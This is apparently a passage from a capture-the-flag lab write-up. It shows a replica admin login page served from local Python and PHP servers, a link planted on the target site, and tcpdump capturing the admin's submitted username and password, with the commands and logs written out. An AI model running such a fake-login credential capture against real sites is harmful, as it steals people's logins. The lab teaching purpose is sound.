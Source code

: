 Now that we have a replica of their login page, and an index.html file on our system that will point to the replica login page we can get our servers up and running.

I start a simple **python HTTP server** on my system (make sure you're in the directory with the index.html file in it when running this command):

`python3 -m http.server`

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

In another terminal I start up a **php HTTP server** (make sure you're in the directory with the index.html file in it when running this command):

`php -S <MY IP> -t .`

```bash
PHP 8.1.2 Development Server (http://<MY IP>:4444) started
```

And then finally in yet another terminal I start up **tcpdump** to capture the incoming traffic which will hopefully contain the admins login credentials:

`sudo tcpdump -i tun0 -X`

So what will happen here is the admin will connect over to our webserver on port 80 and load the **index.html** file, and that in turn will open the fake login page **admin/login.php** that we're hosting on port 4444.

On their website I submit a blog link pointing to my server:

```
http://<MY IP>/index.html
```

And after waiting for about a minute we have an incoming connection to our port 80 webserver:

```bash
10.10.249.163 - - [19/Mar/2022 15:35:15] "GET /index.html HTTP/1.1" 200 -
```

It looks like it redirected over to our port 4444 webserver with no issues and sent us a POST request after the GET request which looks promising:

```bash
[Sat Mar  19 15:35:15 2022] 10.10.249.163:35096 Accepted
[Sat Mar  19 15:35:15 2022] 10.10.249.163:35096 [200]: GET /admin/login.php
[Sat Mar  19 15:35:15 2022] 10.10.249.163:35096 Closing
[Sat Mar  19 15:35:15 2022] 10.10.249.163:35098 Accepted
[Sat Mar  19 15:35:15 2022] 10.10.249.163:35098 [200]: POST /admin/login.php
[Sat Mar  19 15:35:15 2022] 10.10.249.163:35098 Closing
```

And looking at our **tcpdump** terminal we see a user named **daniel** try to login:

```bash
15:35:15.652557 IP 10.10.249.163.34968 > <MY IP>.4444: Flags [P.], seq 319:364, ack 1, win 491, options [nop,nop,TS val 1200173991 ecr 643580845], length 45
        0x0000:  4500 0061 fb52 4000 3d06 d56a 0a0a d904  E..a.R@.=..j....
        0x0010:  0a06 7fc5 8898 115c e2bd 10a0 d59b e39f  .......\........
        0x0020:  8018 01eb 9ca3 0000 0101 080a 4789 33a7  ............G.3.
        0x0030:  265c 43ad 7573 6572 6e61 6d65 3d64 616e  &\C.username=dan
        0x0040:  6965 6c26 7061 7373 776f 7264 3d43 2534  iel&password=C%4
        0x0050:  3075 6768 746d 336e 6170 7069 6e67 3132  0<REDACTED>
        0x0060:  33                                       3
```
